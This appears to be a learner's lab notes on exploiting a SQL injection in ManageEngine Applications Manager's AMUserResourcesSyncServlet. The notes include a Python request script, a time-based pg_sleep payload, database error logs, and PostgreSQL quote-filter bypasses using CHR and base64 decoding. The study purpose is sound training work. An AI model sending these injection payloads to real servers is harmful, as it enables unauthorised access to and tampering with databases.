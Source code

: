 ```Python
	
	t = sys.argv[1]
	
	sqli = ";"

	r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t, 
					  params='ForMasRange=1&userId=1%s' % sqli, verify=False)
	print r.text
	print r.headers

if __name__ == '__main__':
	main()
```
```HTTP
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID_APM_9090=5A0EF105FBA016EA342E8B6F20B8FB63;
Path=/; Secure; HttpOnly
Content-Type: text/html;charset=UTF-8
Content-Length: 0
Date: Sat, 26 Nov 2016 08:57:40 GMT
```
* Content length of 0,  is this good or bad? :( 
`C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log`
```Text
[ 2018-04-21 04:33:39.928 GMT ]:LOG:  execute <unnamed>: select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1
[ 2018-04-21 04:33:39.929 GMT ]:ERROR:  syntax error at or near "and" at character 2
[ 2018-04-21 04:33:39.929 GMT ]:STATEMENT:   and RESOURCEID >1 and RESOURCEID < 10000001
```
* Issues with no data in the SQL query can result in the misleading information. 
Change to time based to see.
```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;
select+pg_sleep(10); HTTP/1.1
Host: manageengine:8443
```


```CMD
[ 2018-04-21 04:42:58.221 GMT ]:ERROR:  operator does not exist: integer &# integer at character 73
[ 2018-04-21 04:42:58.221 GMT ]:HINT:  No operator matches the given name and argument type(s). You might need to add explicit type casts.
[ 2018-04-21 04:42:58.221 GMT ]:STATEMENT:  select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1&#39
```
`1&#39` Can see special char is HTML encoded. 
* In my SQL you can hex encode the characters.
```mysql 
select concat('1337',' h@x0r')
```
```mysql
select concat(0x31333337,0x206840783072)
```
* Not possible in psql.
```psql
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```
### Using CHR and String Concat
* Use individual characters using their code points and piping together.
```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
```